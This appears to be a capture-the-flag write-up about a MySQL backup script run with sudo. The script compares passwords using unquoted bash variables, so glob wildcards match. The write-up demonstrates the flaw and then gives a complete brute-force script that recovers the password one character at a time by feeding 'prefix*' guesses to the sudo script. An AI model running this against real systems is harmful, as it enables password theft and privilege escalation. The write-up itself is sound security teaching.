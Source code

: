 ```bash
/usr/bin/echo 'Done!'
```

It's a script that do backups of the mysql databases. There is a misconfiguration in the script in the if statement because the comparision element are unquoted and we can insert special bash characters, let's see an example:

If we do a normal comparision with the variables unquoted, it works correctly:

```bash
❯ password=test1234                                                                                                                                                                                        
❯ if [[ $password == test1234 ]];then echo "Correct Password"; else echo "Incorrect password";fi
Correct Password
```

But the interesting thing is that if we put a special character in the variable, it also interpretes in bash:

```bash
❯ password=test1234
                                                                                                                                                                               
❯ verify_password=t*
                                                                                                                                                                                
❯ if [[ $password == $verify_password ]];then echo "Correct Password"; else echo "Incorrect password";fi
Correct Password
```

> Note: if you want to test this example in local, do it in bash and not in zsh. In zsh it doesn't works.

So we can apply this concept to bruteforce the password and retrieve it in plaintext, I have created this script to automate it:

```bash
#!/bin/bash

chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
echo "Brute forcing... Wait!"
password=""
password_taked=false
while [[ $password_taked == false ]];do
	for (( i=0; i<$(echo $chars| tr -d '\n' | wc -c); i++ ));do
		char="${chars:$i:1}"
		echo "$password$char*" | sudo /opt/scripts/mysql-backup.sh 2>/dev/null | grep -i "Password confirmed" &>/dev/null
		if [[ "$(echo $?)" == "0" ]];then
			password+=$char
			echo $password
			break
		fi
	done
done
echo $password
```
